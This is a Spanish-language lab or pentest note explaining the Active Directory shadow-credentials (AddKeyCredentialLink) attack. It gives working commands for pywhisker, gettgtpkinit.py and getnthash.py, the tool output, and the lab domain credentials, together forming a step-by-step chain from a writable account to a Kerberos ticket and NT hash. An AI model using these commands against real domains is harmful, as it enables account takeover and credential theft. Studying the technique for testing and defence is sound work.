 # AddKeyCredentialLink Attack
## ¿Qué es?
- Es un ataque que permite a un atacante agregar credenciales a un usuario sin necesidad de conocer la contraseña.
- Se puede hacer con cualquier usuario, pero es más efectivo con usuarios de alto privilegio.

#### [Video](https://youtu.be/oyTEaYNs53w)

## Ataque explicado

![alt text](./AddKeyCredentialLink.png)

- En este ejemplo el usuario **marcus** puede agregar credenciales a la computadora **ZPH-SVRMGMT1.ZSM.LOCAL**.
- Entonces lo que podemos hacer es usar la herramienta pywhisker para agregar credenciales a un usuario sin necesidad de conocer la contraseña.
    - `python3 pywhisker.py -d "zsm.local" -u "marcus" -p '!QAZ2wsx' --target "ZPH-SVRMGMT1$" --action "add"`

```
... etc
--target "ZPH-SVRMGMT1$" --action "add"
[*] Searching for the target account
[*] Target user found: CN=ZPH-SVRMGMT1,CN=Computers,DC=zsm,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 65727581-ddcd-d67a-efb2-b30390b73d68
[*] Updating the msDS-KeyCredentialLink attribute of ZPH-SVRMGMT1$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 3cwbk8w6.pfx
[+] PFX exportiert nach: 3cwbk8w6.pfx
[i] Passwort für PFX: LlnaSQgj2Xgivmptjc7S
[+] Saved PFX (#PKCS12) certificate & key at path: 3cwbk8w6.pfx
[*] Must be used with password: LlnaSQgj2Xgivmptjc7S
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

- Importante la contraseña: **LlnaSQgj2Xgivmptjc7S**

- Luego con la otra herramienta PKINITtools podemos obtener un TGT.
    - `python3 gettgtpkinit.py -cert-pem key_cert.pem -key-pem key_priv.pem DOMAIN/USER`
    - en este caso sería: `python3 gettgtpkinit.py -cert-pem 3cwbk8w6.pem -key-pem 3cwbk8w6.key ZSM.LOCAL/marcus cache.ccache`
- Después hay que exportar el ticket: `export KRB5CCNAME=$PWD/cache.ccache`
- Fijamos que esté cargado con `klist`

## Conseguir NT hash del usuario
- El comando anterior nos tuvo que haber dado un as-rep hash.
- Con este hash podemos solicitar con getnthash.py el NT.
- `python3 getnthash.py -key AS-REP-ENCRYPTION-KEY DOMAIN/USER`
- Y esto te va a dar el NT-HASH recuperado.
